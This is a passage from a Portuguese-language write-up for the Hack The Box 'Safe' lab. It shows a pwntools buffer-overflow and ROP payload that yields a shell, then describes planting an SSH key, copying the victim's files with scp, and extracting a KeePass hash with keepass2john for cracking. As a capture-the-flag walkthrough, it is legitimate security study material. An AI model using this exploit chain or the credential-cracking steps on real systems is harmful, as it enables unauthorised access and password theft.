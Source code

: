 ```
# Localizacao da funcao test na memoria
test = p64(0x401152)

# Montagem do payload
p.sendline(lixo + shell + pop_r13 + system + null + null + test)
p.interactive()
```

A ideia é essa, ele vai enviar o lixo de 112 chars + o shell de 8 chars, esses 120 são capazes de sobrescrever o RBP com o shell. Após isso enviamos o comando para dar um JMP até o R13, chamamos a função system, dois null bytes (são necessários pq a chain do pop r13 são três endereços), e damos ret para a test

### Ganhando Shell no sistema

Executando, ganhamos uma shell no sistema

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-safe/S_ge12.png)

Agora pra facilitar o trabalho de escalação de privilégio, vamos dropar uma chave ssh nossa ali dentro

Primeiro geramos uma chave ssh na Kali

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-safe/S_ge13.png)

Enviamos para a máquina

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-safe/S_ge14.png)

Conectamos via SSH

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-safe/S_ge15.png)

# Escalação de Privilégio

Agora vamos iniciar a fase de escalação de privilégio

No diretório raiz do usuário *user* verificamos diversos arquivos e um .kbdx

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-safe/S_priv.png)

Enviamos eles todos para nossa máquina para melhor trabalhar

> scp -i safe user@10.10.10.147:* .

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-safe/S_priv1.png)

Transformamos o arquivos *.kdbx para john (pra podermos tentar quebrar essa senha)

> keepass2john MyPasswords.kdbx > keypass_hash

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-safe/S_priv2.png)
